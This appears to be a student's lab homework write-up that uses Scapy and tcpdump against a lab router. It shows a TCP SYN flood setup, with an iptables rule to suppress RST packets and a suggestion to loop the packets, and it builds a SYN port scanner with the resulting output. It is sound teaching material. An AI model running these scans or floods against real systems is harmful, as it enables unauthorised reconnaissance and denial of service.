

Home Assignement 1
==================
Aurélien Labate (EFJIOD)

The following network configuration will be used during this exercice.


Part 1 - Perform a TCP SYN Attack
---------------------------------
The goal of a TCP SYN attack is generally to create a deny of service by
opening a lot of TCP connections on the target's computer.

### TCP SYN Exchange when target's port is closed

**Scapy command**: Send a SYN packet on the TCP port 80
```
send(IP(dst="10.0.0.2")/TCP(dport=80,flags="S"))
```

**tcpdump** on `R2`:
```
16:41:25.123960 IP 10.0.0.1.20 > 10.0.0.2.80: Flags [S], seq 0, win 8192, length 0
16:41:25.124014 IP 10.0.0.2.80 > 10.0.0.1.20: Flags [R.], seq 0, ack 1, win 0, length 0
```

We can see that `R2` answer with a `[R.]`, which mean `RESET` and `ACK`.
In this case, `R2` has closed the connection because therei is no application listening on this port.

### TCP SYN Exchange when target's port is opened
The TCP port 23, is telnet's port which should be opened on this router.

**Scapy command**: Send a SYN packet on the TCP port 23
```
send(IP(dst="10.0.0.2")/TCP(dport=23,flags="S"))
```

**tcpdump** on `R2`:
```
16:46:56.600802 IP 10.0.0.1.20 > 10.0.0.2.23: Flags [S], seq 0, win 8192, length 0
16:46:56.600861 IP 10.0.0.2.23 > 10.0.0.1.20: Flags [S.], seq 1502880524, ack 1, win 14600, options [mss 1460], length 0
16:46:56.601316 IP 10.0.0.1.20 > 10.0.0.2.23: Flags [R], seq 1, win 0, length 0
```
We can see here that `R2` answer with `[S.]`, which mean `SYN` and `ACK`.
After that, `R2` expect a `SYN` from `R1` to complete connection.

But `R1`'s TCP stack doesn't expect this `SYN-ACK` from `R1` so it close the connection
with a `RESET`.

### TCP SYN Attack
If `R1` don't send the final `RESET` package on an open port, the connection
should stay opened until timeout. That's what we want.

So we ask `R1`'s firewall to drop outgoing TCP `RESET` packet to `R2`
```
iptables -t raw -A OUTPUT -p tcp --tcp-flags RST RST -d 10.0.0.2 -j DROP
```

**tcpdump** on`R2`:
```
04:57:51.718419 IP 10.0.0.1.20 > 10.0.0.2.23: Flags [S], seq 0, win 8192, length 0
04:57:51.718464 IP 10.0.0.2.23 > 10.0.0.1.20: Flags [S.], seq 3149158510, ack 1, win 14600, options [mss 1460], length 0
04:57:52.714863 IP 10.0.0.2.23 > 10.0.0.1.20: Flags [S.], seq 3149158510, ack 1, win 14600, options [mss 1460], length 0
04:57:54.914846 IP 10.0.0.2.23 > 10.0.0.1.20: Flags [S.], seq 3149158510, ack 1, win 14600, options [mss 1460], length 0
04:57:59.114800 IP 10.0.0.2.23 > 10.0.0.1.20: Flags [S.], seq 3149158510, ack 1, win 14600, options [mss 1460], length 0
04:58:07.114834 IP 10.0.0.2.23 > 10.0.0.1.20: Flags [S.], seq 3149158510, ack 1, win 14600, options [mss 1460], length 0
04:58:23.114784 IP 10.0.0.2.23 > 10.0.0.1.20: Flags [S.], seq 3149158510, ack 1, win 14600, options [mss 1460], length 0
```

We can see here that `R2` doesn't receive any `ACK` from `R1` so it try to
resend its `SYN-ACK` package. After 6 attempts, it give up.
The connection stayed open at least for 32 secondes which is a very long allocation
of resources because of a single TCP packet.

So if we send this packet in a loop we should be able to take a lot of ressources
from `R2` and maybe create a deny of service.


Part 2 - Construct a TCP port scanner
-------------------------------------
We have seen in the first part, that `R2` answer with `RESET` when port
is closed and `SYN-ACK` when port is opened.

So if we send a loop of `SYN` packet on each port we can find which port is opened :

**Scapy command**: Send a SYN packet for each dport from 1 to 2000
```
sr(IP(dst="10.0.0.2")/TCP(dport=(1,2000),flags="S"))
```
To get the answers we have to do
```
ans,unans = _
ans.summary()
```

And we get something like that :
```
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:1 S ==> IP / TCP 10.0.0.2:1 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:2 S ==> IP / TCP 10.0.0.2:2 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:3 S ==> IP / TCP 10.0.0.2:3 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:4 S ==> IP / TCP 10.0.0.2:4 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:5 S ==> IP / TCP 10.0.0.2:5 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:6 S ==> IP / TCP 10.0.0.2:6 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:echo S ==> IP / TCP 10.0.0.2:echo > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:8 S ==> IP / TCP 10.0.0.2:8 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:discard S ==> IP / TCP 10.0.0.2:discard > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:10 S ==> IP / TCP 10.0.0.2:10 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:11 S ==> IP / TCP 10.0.0.2:11 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:12 S ==> IP / TCP 10.0.0.2:12 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:daytime S ==> IP / TCP 10.0.0.2:daytime > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:14 S ==> IP / TCP 10.0.0.2:14 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:netstat S ==> IP / TCP 10.0.0.2:netstat > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:16 S ==> IP / TCP 10.0.0.2:16 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:17 S ==> IP / TCP 10.0.0.2:17 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:18 S ==> IP / TCP 10.0.0.2:18 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:chargen S ==> IP / TCP 10.0.0.2:chargen > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:ftp_data S ==> IP / TCP 10.0.0.2:ftp_data > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:ftp S ==> IP / TCP 10.0.0.2:ftp > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:ssh S ==> IP / TCP 10.0.0.2:ssh > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:telnet S ==> IP / TCP 10.0.0.2:telnet > 10.0.0.1:ftp_data SA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:24 S ==> IP / TCP 10.0.0.2:24 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:smtp S ==> IP / TCP 10.0.0.2:smtp > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:26 S ==> IP / TCP 10.0.0.2:26 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:27 S ==> IP / TCP 10.0.0.2:27 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:28 S ==> IP / TCP 10.0.0.2:28 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:29 S ==> IP / TCP 10.0.0.2:29 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:30 S ==> IP / TCP 10.0.0.2:30 > 10.0.0.1:ftp_data RA / Padding
```

We can see the TCP flag before `/ Padding`. For closed port this should be `RA` (for `RESET-ACK`).
For opened port this should be `SA` (for `SYN-ACK`).

We can see that the only open port is telnet's port (23).
